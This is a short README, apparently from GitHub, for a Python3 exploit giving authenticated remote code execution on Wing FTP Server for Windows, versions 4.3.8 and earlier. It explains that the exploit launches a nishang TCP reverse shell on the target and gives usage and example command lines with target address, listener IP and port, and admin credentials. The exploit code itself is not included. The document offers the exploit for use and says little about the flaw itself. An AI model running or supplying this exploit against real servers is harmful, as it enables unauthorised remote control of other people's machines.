 # Wing-FTP-RCE Authenticated
This is an exploit written in Python3 for the Wing FTP Server running on Windows. This exploit requires Wing FTP's admin panel authentication.

## Tested versions
<=4.3.8

## About the vulnerability
This exploit was discovered by Alex Haynes.

## How to run:
This exploit will invoke a nishang tcp reverse shell on the target. Start your listener before executing.

#Usage:
```
 wingrce.py <TARGET> <TARGET_PORT> <LOCAL_IP> <LOCAL_PORT> <USER> <PASSWORD>
```
#Example:
```
wingrce.py 0.0.0.0 8000 127.0.0.1 9001 notcos coolpass
```
